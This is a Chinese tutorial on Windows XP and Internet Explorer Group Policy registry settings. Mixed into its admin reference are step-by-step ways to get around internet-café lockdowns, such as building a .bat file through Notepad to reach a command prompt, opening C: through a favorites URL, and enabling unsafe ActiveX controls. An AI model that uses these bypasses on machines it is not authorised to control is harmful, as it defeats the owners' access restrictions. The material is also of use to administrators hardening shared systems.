

对于该策略，如果当前选项是“提示”，IE 仍可能在无需提示的情况下下载和执行程序，存在严重安全问题，可能导致被完全控制。

解决方法：在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility` 下创建一个基于 CLSID 的项（如 `{6E449683-C509-11CF-AAFA-00AA00B6015C}`），并在该项下创建 DWORD 值 `Compatibility Flags`，赋十六进制值 `400`。

> **[什么是 CLSID]**  
> CLSID 是 class ID 的缩写，即类标识符。每个组件类都需要分配唯一 ID。微软使用 GUID 作为 CLSID，通过时间、机器地址等信息动态生成，理论上可保证全局唯一。  
> 在注册表中，一些系统对象以 CLSID 表明身份，例如：
> - 我的电脑 `{20D04FE0-3AEA-1069-A2D8-08002B30309D}`
> - 网上邻居 `{208D2C60-3AEA-1069-A2D7-08002B30309D}`
> - 回收站 `{645FF040-5081-101B-9F08-00AA002F954E}`
> - 我的文档 `{450D8FBA-AD25-11D0-98A8-0800361B1103}`
> - Internet Explorer `{871C5380-42A0-1069-A2EA-08002B30309D}`
> - 控制面板 `{21EC2020-3AEA-1069-A2DD-08002B30309D}`
> - 拨号网络/网络连接 `{992CFFA0-F557-101A-88EC-00DD010CCC48}`
> - 网络（和拨号）连接 `{7007ACC7-3202-11D1-AAD2-00805FC1270E}`
> - 添加打印机 `{2227A280-3AEA-1069-A2DE-08002B30309D}`
> - 计划任务 `{D6277990-4C6A-11CF-8D87-00AA0060F5BF}`

- **b. 下载未签名的 ActiveX 控件**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下新建 DWORD 值 `1004` 并赋值：`0` 为启用、`1` 为提示、`3` 为禁用。
  - 描述：此策略设置允许管理员用户是否可以从此区域下载没有签名的 ActiveX 控件。此类代码有潜在危险，特别是来自不受信任区域时。该策略启用后同样有“启用、提示、禁用”三个子选项。

- **c. 对没有标记为安全的 ActiveX 控件进行初始化和脚本运行**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下新建 DWORD 值 `1201` 并赋值：`0` 为启用、`1` 为提示、`3` 为禁用。

## 1 突破网吧限制

描述：此策略设置允许您管理未标记为安全的 ActiveX 控件。如果启用此设置，不需要为不被信任的数据或脚本设置对象安全即可运行、带参数加载或编码 ActiveX 控件。此设置导致不安全和安全控件可以被初始化或编码，不论脚本 ActiveX 控件是否为脚本选项标记了安全。

不安全因素即使被初始化也是存在威胁的，管理员一般会禁用或默认处理该策略。

### d. 运行 ActiveX 控件和插件

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下新建 DWORD 值 `1200` 并赋值，`0` 为启用，`1` 为提示，`3` 为禁用，`65536` 为管理员认可选项。

描述：此策略设置允许您管理是否可以运行来自指定区域的网页上的 ActiveX 控件和插件。这是一个很重要的策略……通常我们选择“启用”或“提示”。



### e. 对标记为可安全执行脚本的 ActiveX 控件执行脚本

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下新建 DWORD 值 `1405` 并赋值，`0` 为启用，`1` 为提示，`3` 为禁用。

描述：此策略设置允许您管理标记为脚本安全的 ActiveX 控件，可以与脚本交互。我想管理员是不会花费时间考虑哪个 ActiveX 控件是安全的，只能是统统禁止。

**[如何屏蔽网络插件]**

平常在浏览网页的时候，3721 等网络插件的安装提示很烦人，甚至有时会遮挡网页文字。其实 3721 上网助手、CNNIC 等网络插件都使用了微软的 ActiveX 技术，我们可以通过在 Windows 注册表中禁止相应 ActiveX 调用来实现屏蔽。

下面给出一些常见“骚扰性”ActiveX 插件及对应 ActiveX 控件（节选）：

- `{56A7DC70-E102-4408-A34A-AE06FEF01586}` 天丁搜索
- `{73ACC07C-1E56-4AED-8CCD-71B2C4585C27}` 咕噜咕噜
- `{5BCDB34C-B4D7-418B-A0FB-C4C8AC1C2F0E}` 51Diy 吧
- `{15DDE989-CD45-4561-BF99-D22C0D5C2B74}` 新浪点点通
- `{98FA5687-513F-4F15-8A15-C171477B8847}` 新浪 i 通
- `{8135EF31-FE8C-4C6E-A18A-F59944C3A488}` DuDu
- `{B83FC273-3522-4CC6-92EC-75CC86678DA4}` 3721 网络实名
- `{1B0E7716-898E-48CC-9690-4E338E8DF1D3}` 3721 上网助手
- `{7CA83CF1-3AEA-42D0-A4E3-1594FC8E48B2}` 3721
- `{9A578C98-3C2F-4630-890B-EC04196EF420}` CNNIC 通用域名
- `{CF051549-FDF1-40F5-B440-5CD646CF2C25}` POPO 网易泡泡
- `{4EDBBAEA-F509-49F6-94D1-ECE64BE5B686}` 3721 中文邮
- `{BC207F7D-3E83-4ACA-99B5-FB5F8428200C}` Baidu 搜索伴侣
- `{9BBC1154-218D-453C-97F6-A06582224281}` Baidu 搜索
- `{2D0C7226-747E-11D6-83F0-00E04C4A2F90}` 搜狐视频播放器


下面需要通过修改注册表来实现，依次打开 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility`，在该项下建立子项，项名称即为网络插件的 CLSID。

然后在新建项下建立 DWORD 值，并赋名称为 `Compatibility Flags`。给 `Compatibility Flags` 赋值十六进制 `400` 即可。这样只要一项一项添加就可以了。该操作仅屏蔽 ActiveX 插件的安装弹出窗口，不会影响已安装程序的正常使用。

### f. 允许文件下载

注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3`，新建 `1803` 这个 DWORD 值，并赋值，`0` 为启用，`3` 为禁用。


### g. 文件下载的自动提示

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下新建 DWORD 值 `2200`，赋值 `0` 为启用，`3` 为禁用。

描述：此策略设置决定是否在发生不是由用户初始化的文件下载时提醒用户。无论此策略的设置如何，在发生用户初始化的下载时，都将出现文件下载对话框。

笔者理解微软的意思是防止恶意程序的自动下载，虽然也有可能打开一个网页提示自动下载是因为该网站的某个服务，但是大部分用户还是不会考虑下载的。启用此策略可以提示用户是否下载非自定义的程序，即不是用户自己点击下载链接造成的下载行为。

### h. ActiveX 控件自动提示

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下新建 DWORD 值 `2201`，且赋值 `0` 为启用，`3` 为禁用。

描述：该策略的设置和上一设置意图基本相同，即在有 ActiveX 控件自动安装的时候是否提醒用户。该策略同样是出于对用户安全的考虑，网管一般不会对该项表示关心。

### i. Java 小程序脚本

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下新建 DWORD 值 `2201`，并且赋值，`0` 为启用、`1` 为提示、`3` 为禁用。

描述：此策略设置允许您管理小程序是否对此区域中的脚本可见。

### j. 登录选项

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3` 下新建 DWORD 值 `1A00`，以下几个数据值是有效的：

- `0`：自动使用当前用户名和密码登录
- `65536`：用户名和密码提示
- `131072`：只在 Intranet 区域自动登录
- `196608`：匿名登录

描述：此策略设置允许您管理未标记为安全的 ActiveX 控件。如果启用此设置，不需要为不被信任的数据或脚本设置对象安全即可运行、带参数加载或编码 ActiveX 控件。此设置导致不安全和安全控件可以被初始化或编码，不论脚本 ActiveX 控件是否为脚本。


本选项标记了安全。首先确定的是，如果一个用户想要玩耍，那管理员一定会认为他从网络上下载或运行的任何程序都是不安全的。而程序本身是否安全只有用户自己才知道吧。我们需要的是对自己有利的程序，而不会考虑它是否安全（一般对于管理员而言，呵呵）。管理员一般会禁用该策略，而我们只要启用该项目就可以不受限制地运行 ActiveX 控件程序了。

以上列出的几项是在“Internet 区域”中的，而和该列同级的另外几个列的内容和“Internet 区域”中的内容是相同的。这些内容对应的是“Internet 选项”中“安全”选项卡的各区域的“自定义级别”，如图 2-2-25、图 2-2-26。


## 2.2.4 Windows 组件\IE\浏览器菜单

### a. “文件”菜单：禁用“另存为...”菜单项

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建一个名为 `NoBrowserSaveAs` 的 DWORD，然后赋值为 `1`。

描述：禁止用户从浏览器“文件”菜单中将网页保存到硬盘或网络上的共享位置。如果启用该策略，“文件”菜单上的“另存为”命令将被删除。

但是启用该策略不会禁止用户通过指向网页上的链接，单击鼠标右键，然后单击“目标另存为”保存 Web 内容。启用该策略后在“文件”菜单中将看不到“另存为”命令，如图 2-2-27。

但是在 IE 中使用鼠标右键还是可以“目标另存为”的。注意一下该策略需要重新打开一个 IE 窗口才会生效。


管理员禁用该策略的目的在于用户可以利用该功能保存网页为指定格式文件。这里我们假设这样的环境：禁止访问所有本地硬盘、禁止桌面右键、禁止浏览桌面、禁止在 IE 中使用查看源文件。我们的目的是运行一个命令提示符。首先任意打开一个网站，点击“文件”——“另存为”，在“保存类型”中选择“文本文件”就可以保存了，如图 2-2-28。

由于限制了访问所有的磁盘驱动器，所以只有桌面可以被我们利用。好的就到这里，欲知后事如何，请看下个项目……

### b. “文件”菜单：禁用“新建”菜单项

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建一个名为 `NoFileNew` 的 DWORD，然后赋值为 `1`。

描述：禁止用户从文件菜单打开新浏览器窗口。“文件”——“新建”中包含以下几个项目：窗口、邮件、发布信息、联系人、Internet 呼叫。该策略仅禁止访问新建窗口，其它项无关。如果你试图使用该方法打开一个新窗口的话，将有如图 2-2-29 的提示。


### c. “文件”菜单：禁用“打开”菜单项

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建一个名为 `NoFileOpen` 的 DWORD，然后赋值为 `1`。

描述：禁止用户从 Internet Explorer 的“文件”菜单中打开文件或网页。要注意，该策略不会禁止用户通过右键单击网页上的链接，然后单击“打开”或“在新窗口中打开”命令打开网页。启用了该策略后，如果你试图使用“文件”——“打开”，将同样会出现如图 2-2-29 的提示。

话说上上一回我们已经在桌面保存了一个文本文件。如果管理员没有启用该策略，由于我们无法访问桌面，所以只能通过该项来打开刚才新建的文本文件，选择“文件”菜单——“打开”，出现如图 2-2-30。选择“浏览”，在“文件类型”处选择“文本文件”或“所有文件”，选择刚才保存的文本文件，如图 2-2-31。打开，然后确定就可以得到一个记事本了。在记事本中写 `cmd`，然后“文件”→“另存为”，在文件名处写 `*.bat`，如图 2-2-32。保存后再利用“打开”菜单项就可以获得一个命令提示符了。

### d. “文件”菜单：禁用另存为“网页，全部”格式

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Infodelivery\Restrictions` 下新建一个名为 `NoBrowserSaveWebComplete` 的 DWORD，然后赋值为 `1`。

描述：禁止用户保存显示在网页中或从网页中运行的完整内容，包括图片、脚本和链接的文件以及其他元素。该策略不禁止用户保存网页中的文字。同时，该策略的优先级别低于“文件”菜单：禁用“另存为...”菜单项策略，因为后面的策略会连同文字信息一起被禁止保存。所以设置了后面的策略后，该策略会被忽略。启用了该策略后，在“文件”菜单的“另存为”的保存类型中无“网页，全部”和“Web 档案，单一文件”选项，如图 2-2-33。但是我们还是可以在网页上使用鼠标右键“图片另存为”的。

### e. “查看”菜单：禁用“源文件”菜单项

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建一个名为 `NoViewSource` 的 DWORD，然后赋值为 `1`。

描述：禁止用户通过单击“查看”菜单上的“源文件”命令查看网页的 HTML 源文件。但是该策略不禁止用户通过右键单击网页然后选择“查看源文件”查看 HTML 源文件。启用该策略后，“查看”菜单上的“源文件”命令将变灰，如图 2-2-34。

### f. 隐藏“收藏夹”菜单

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建一个名为 `NoFavorites` 的 DWORD，然后赋值为 `1`。


描述：禁止用户添加、删除或编辑收藏夹链接列表。启用该策略后，“收藏夹”菜单中的“添加到收藏夹”和“整理收藏夹”，网页的上下文菜单中的“添加到收藏夹”命令都是不可用的，点击它们将出现如图 2-2-35 的提示。浏览器工具栏上的“收藏”按钮也将变灰，如图 2-2-36。通过收藏夹我们可能有机会进入本地硬盘。你可以尝试点击“收藏”菜单中的“链接”文件夹图标，就会发现进入了 `C:\Documents and Settings\Administrator\Favorites\链接` 目录。当然，你也可以通过“整理收藏夹”添加一个文件夹。还有一种方法，在“收藏”下右键随便打开一个链接的属性，在“Web 文档”选项卡中有一个 URL，指向的是它的链接地址。我们将它改为一个本地硬盘的路径，比如改成了 `c:`，如图 2-2-37。然后确定即可，重新打开该链接后，是不是进入你的 C 盘了？

### g. “工具”菜单：禁用“Internet 选项...”菜单项

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建一个 DWORD 值，名称为 `NoBrowserOptions`，然后赋值为 `1`。

描述：禁止用户从 IE 的“工具”菜单上打开“Internet 选项”对话框。


并且即使是对访问“控制面板”做了限制，也可以使用以下方法进入“Internet 选项”：点击浏览器的“帮助”菜单，选择“目录与索引”，在出来的 chm 帮助文件的工具栏选择“选项”，在下拉菜单中就可以进入“Internet 选项”了，如图 2-2-38。

这个方法我屡试不爽，如果你在的网吧比较 BT，可以试试哦！启用该策略后试图在“工具”菜单中打开“Internet 选项”将同样出现图 2-2-35 的错误提示。


### h. 禁用上下文菜单

- 注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建 `NoBrowserContextMenu` 的 DWORD，赋值为 `1`。
- 描述：禁止在用户使用浏览器过程中单击鼠标右键时出现快捷菜单。该策略对 IE 工作区有效，菜单栏和工具栏点击右键仍可用。

### i. 禁用“在新窗口中打开”菜单项

- 注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建 `NoOpeninNewWnd` 的 DWORD，赋值为 `1`。
- 描述：禁止使用快捷菜单在新窗口中打开链接。启用后相关“新建/窗口”功能变灰。


### j. 禁用“将该程序保存到磁盘”选项

- 注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Restrictions` 下新建 `NoSelectDownloadDir` 的 DWORD，赋值为 `1`。
- 描述：下载文件时点击“保存”会弹出受限提示，从而达到限制下载行为的目的。


以上这部分的 IE 限制大部分是不需要重新打开新窗口就可以生效的，有些需要。建议重新打开新窗口，以便所有修改生效。

## 2.2.5 Windows 组件\Windows 资源管理器

### a. 从“工具”菜单删除“文件夹选项”菜单

- 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD 值 `NoFolderOptions`，赋值为 `1`。
- 描述：从资源管理器和控制面板中移除“文件夹选项”，禁止通过该入口进行显示隐藏文件、扩展名等设置。

### b. 隐藏“我的电脑”中的这些指定的驱动器

- 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下创建 DWORD `NoDrives`，按位设置隐藏盘符。
- 描述：在“我的电脑”和资源管理器中隐藏选定驱动器图标与入口，但并非彻底禁用，仍可能通过其他方式访问。

### c. 防止从“我的电脑”访问驱动器

- 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD `NoViewOnDrive`，按位设置限制盘符。
- 描述：限制用户在“我的电脑/资源管理器”中访问受限本地硬盘。


在资源管理器中可以通过点击各目录前面的加号查看目录树结构，而如果点击了图标的话，将出现如图 2-2-42 的提示。在所有的标准对话框中也是同样的；在搜索中，虽然搜索路径会出现禁止访问的硬盘，但是在这些盘下搜索的时候会直接显示找到 0 个文件。不仅是驱动器本身，驱动器下的任何目录都不可以访问，但是其中的程序却可以通过其他途径直接访问到，比如“运行”或者 cmd，这也就是突破口了。


需要指出的是，隐藏和禁止访问硬盘的数值数据都是通用的。就是说设置 NoDrives 为十进制 15 可以同时隐藏 A、B、C 和 D 盘，而将 NoViewOnDrive 赋值为 4 同样可以只限制对 C 盘的访问。

- **d. “网上邻居”中不含“整个网络”**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Network` 下新建 DWORD 值 `NoEntireNetwork`，并赋值为 1。
  - 描述：从资源管理器及“网上邻居”的网络资源列表中删除不属于用户组及本地域的计算机，即删除“网上邻居”及“映射网络驱动器”浏览框中的“整个网络”选项和网络计算机图标。

- **e. “网上邻居”中不含“我附近的计算机”**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD 值 `NoComputersNearMe`，并赋值为 1。
  - 描述：从资源管理器和“网上邻居”的网络资源列表中删除用户工作组和域中的计算机，但该策略不能阻止用户通过其他方法连接到工作组或域中的其他计算机（如在“运行”或 IE 地址栏输入共享名或 IP）。启用后“网上邻居”的“网络任务”中无“查看工作组计算机”选项（如图 2-2-43）。

- **f. 从 Windows 资源管理器上删除“文件”菜单**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD 值 `NoFileMenu`，并赋值为 1。
  - 描述：从“我的电脑”以及“资源管理器”中删除“文件”菜单以防止用户使用其功能，包括资源管理器、共享与安全、搜索以及属性。


- **g. 删除“映射网络驱动器”和“断开网络驱动器”**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD 值 `NoNetConnectDisconnect`，并赋值为 1。
  - 描述：阻止用户用资源管理器或“网上邻居”来映射或断开网络驱动器；会从菜单中删除相关命令，但并不阻止用户通过其他途径访问网络驱动器。

- **h. 从 Windows 资源管理器上删除搜索按钮**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD 值 `NoShellSearchButton` 并赋值为 1。
  - 描述：该策略会从 Windows 资源管理器和其他使用“Windows 资源管理器”程序的工具栏删除“搜索”按钮（如“我的电脑”“网上邻居”，见图 2-2-44）。但这类“删除”多为隐藏，开始菜单/快捷键/F3/Win+F 等搜索入口不一定受影响。


- **i. 删除 Windows 资源管理器的默认上下文菜单**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD 值 `NoViewContextMenu`，并赋值为 1。
  - 效果：从桌面和资源管理器中删除右键快捷菜单，限制如新建、属性等功能；在资源管理器的空白处、图标上等位置右键会无响应。

- **j. 隐藏 Windows 资源管理器上下文菜单上的“管理”项目**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD 值 `NoManageMyComputerVerb`，并赋值为 1。
  - 描述：从资源管理器上下文菜单中删除“管理”，该项通常打开“计算机管理（Compmgmt.msc）”，包含事件查看器、设备管理器、磁盘管理等重要工具。此策略属于隐藏策略。用户依然可以通过其他方式打开相关工具，如“计算机管理”或使用“运行”输入 `compmgmt.msc` 进入计算机管理。

- **k. 删除安全选项卡（文件或者文件夹属性中的）**
  - 注册表键值：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下新建 DWORD 值 `NoSecurityTab`，并赋值为 1。
  - 描述：从资源管理器删除“安全选项”卡。启用该策略后，用户在打开文件系统对象（包括文件夹、文件、快捷方式和驱动器）的“属性”对话框时，将无法访问“安全”选项卡。用户将不能改变安全设置，也不能查看所有能访问上述资源的用户列表。部分 Windows XP 用户看不到“安全”选项与“简单文件共享”有关，可在“文件夹选项-查看-高级设置”中关闭“简单文件共享”。


## 2.2.6、Windows 组件\MMC

### a. 限制用户进入作者模式

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\MMC` 下新建 DWORD 值 `RestrictAuthorMode`，并赋值为 1。

描述：该策略防止用户以作者模式打开 MMC，并阻止以默认作者模式打开的控制台文件（如 `perfmon.msc`、`rsop.msc`、`wmimgmt.msc`）。某些管理单元会出现受限提示，但其他默认访问方式为非作者方式的管理单元仍可被具管理员权限用户打开（包括组策略编辑器）。

> **作者模式，用户模式**
>
> 创建自定义控制台时，可在常用访问选项中选择作者模式或用户模式。用户模式又有不同级别（如完全访问、受限访问等）。作者模式具备完整控制权限，可添加/删除管理单元、创建窗口与任务、调整项目显示方式，并可在关闭时提示保存修改。
>
> 通过选择用户模式选项，可排除用户不需要的创作功能，并且用户模式下对控制台所做修改在关闭时可自动保存。


### b. 限制用户只能使用列表中明确允许的管理单元

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\MMC` 下新建 DWORD 值 `RestrictToPermittedSnapins`，并赋值为 1。

描述：允许或禁止用户使用 MMC 管理单元。启用该策略后，会禁止未被明确允许的管理单元；禁用或未配置则可访问所有管理单元。用户可以在当前目录树下的“受限的/许可的管理单元”对各单元进行灵活设置。若该策略启用而无允许单元，运行一个管理单元，比如组策略，将出现如图 2-2-48 的提示。

点击确定后将出现创建管理单元失败的提示，并给出该单元的名称和 CLSID，如图 2-2-49。

## 2.2.7、Windows 组件\MMC\受限的/许可的管理单元\组策略

- **a、组策略对象编辑器**

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\MMC\{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}` 下新建 DWORD 值 `Restrict_Run`，并赋值为 1。

描述：对组策略编辑器的许可或禁止设置。如果“限制用户只能使用列表中明确允许的管理单元”策略被启用了，即使该策略被启用了也只是一个骨架，里面的内容还是被禁用，如图 2-2-50。如果想要扩充组策略中的策略，则要启用下面的策略。


## 2.2.8、Windows 组件\MMC\受限的/许可的管理单元\组策略\组策略管理单元扩充

该策略和上一个策略配合使用，是上一个策略的补充。你可以在该策略下设置哪个单元被允许（禁止）在组策略中出现。比如这里我只允许“管理模板（用户）”，在组策略中显示如图 2-2-51。


- **a、管理模板（计算机）**
- **b、管理模板（用户）**

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\MMC\{0F6B957D-509E-11D1-A7CC-0000F87571E3}` 新建 DWORD 值 `Restrict_Run`，并赋值为 1。

描述：允许（禁止）组策略中“管理模板（计算机）”的出现。

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\MMC\{0F6B957E-509E-11D1-A7CC-0000F87571E3}` 新建 DWORD 值 `Restrict_Run`，并赋值为 1。

描述：允许（禁止）组策略中“管理模板（用户）”的出现。这个对我们比较重要，一般这个策略启用就可以了。

- **c、安全设置**
- **d、远程安装服务**

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\MMC\{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}` 新建 DWORD 值 `Restrict_Run`，并赋值为 1。

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\MMC\{3060E8CE-7020-11D2-842D-00C04FA372D4}` 新建 DWORD 值 `Restrict_Run`，并赋值为 1。

## 2.2.9、Windows 组件\Windows Messenger

- **a、不允许运行 Windows Messenger**

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Messenger\Client` 新建 DWORD 值 `PreventRun`，并赋值为 1。

描述：允许用户禁用 MSN，在策略启用后运行 MSN 将无响应。该策略在“计算机配置”中同样存在，如果该策略和“计算机配置”中的与该策略对应的策略都配置的话，后者的优先级别要更高。策略启用后双击打开 msn 程序没有响应。

## 2.2.10、Windows 组件\应用程序兼容性

- **a、防止访问 16 位应用程序**

注册表键值：`HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\AppCompat` 新建 DWORD 值 `VDMDisallowed`，并赋值为 1。

描述：允许禁止用户访问 16 位应用程序，这些程序都为 MS-DOS 下的命令行程序，在 WinXP 下它们是：

```text
Append
Debug
Debug 子命令
Edit
```


它们是从 16 位操作系统（比如 Win98）保留下来的命令，其中最强大的也是最有用的命令莫过于 debug，它是一个简单的汇编调试环境。在 WinXP 下运行 16 位应用程序将通过 command.exe 解释运行，并且语言环境为英文。启用该策略后 command.exe 将被禁用，如果你试图运行它将出现如图 2-2-52 的错误提示。并且在 CMD 下运行 16 位程序同样将拒绝访问，如图 2-2-53。

## 2.2.11、任务栏和「开始」菜单

- **a、从「开始」菜单中删除“文档”菜单**

注册表键值：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 DWORD 值 `NoRecentDocsMenu=1`。

描述：从「开始」菜单中删除“文档”菜单。“文档”菜单中包含用户最近打开的非程序文件的链接，使用该菜单可以使用户更方便地打开文档文件。启用该策略后，「开始」菜单中无“文档”菜单。

- **b、从「开始」菜单中删除“网络连接”**

注册表键值：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 DWORD 值 `NoNetworkConnections=1`。

描述：防止用户运行网络连接，即网上邻居属性。在 XP 中，网络连接位于「开始」菜单——「设置」。策略启用后在“设置”中无“网络连接”，但在“控制面板”中仍可打开“网络连接”。


- **c、从「开始」菜单中删除“搜索”菜单**

注册表键值：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 DWORD 值 `NoFind=1`。

描述：禁用资源管理器和桌面的搜索项，包括「开始」菜单中的“搜索”菜单、上下文菜单中的搜索命令、资源管理器工具栏搜索图标，以及快捷键 F3、Ctrl+F、Win+F。启用后这些入口无“搜索”或无响应。

- **d、从「开始」菜单中删除“帮助”命令**

注册表键值：在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer` 下，新建 DWORD 值 `NoSMHelp=1`。

描述：在 WinXP 下为“帮助和支持”命令。启用后在开始菜单中删除“帮助和支持”，但仍可通过其他方式运行帮助与支持中心（如在“运行”中输入 `helpctr`）。

